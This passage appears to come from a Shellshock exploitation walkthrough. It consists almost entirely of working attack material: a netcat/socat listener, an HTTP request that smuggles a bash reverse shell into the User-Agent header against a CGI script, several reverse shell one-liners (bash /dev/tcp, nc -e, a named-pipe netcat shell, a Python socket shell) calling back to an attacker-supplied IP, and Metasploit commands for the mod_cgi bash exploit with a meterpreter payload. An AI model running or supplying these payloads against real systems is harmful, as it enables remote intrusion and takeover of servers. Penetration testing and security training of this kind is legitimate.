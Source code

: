```bash
# Netcat listener
nc -nlvp 1234

# Alternative with socat
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

#### Craft Reverse Shell Payload

```http
GET /cgi-bin/test.cgi HTTP/1.1
Host: <target_ip>
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<your_ip>/1234 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```

#### Alternative Reverse Shell Methods

```bash
# Using different payloads
# Bash TCP
/bin/bash -i >& /dev/tcp/<your_ip>/1234 0>&1

# Netcat traditional
nc -e /bin/sh <your_ip> 1234

# Netcat with named pipe
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <your_ip> 1234 >/tmp/f

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Metasploit Framework Exploitation

### Using ShellShock Module

```bash
# Start Metasploit
msfconsole

# Search for ShellShock modules
search shellshock

# Use the Apache mod_cgi module
use exploit/multi/http/apache_mod_cgi_bash_env_exec

# Configure options
set RHOSTS <target_ip>
set TARGETURI /cgi-bin/test.cgi
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444

# Exploit
exploit
```
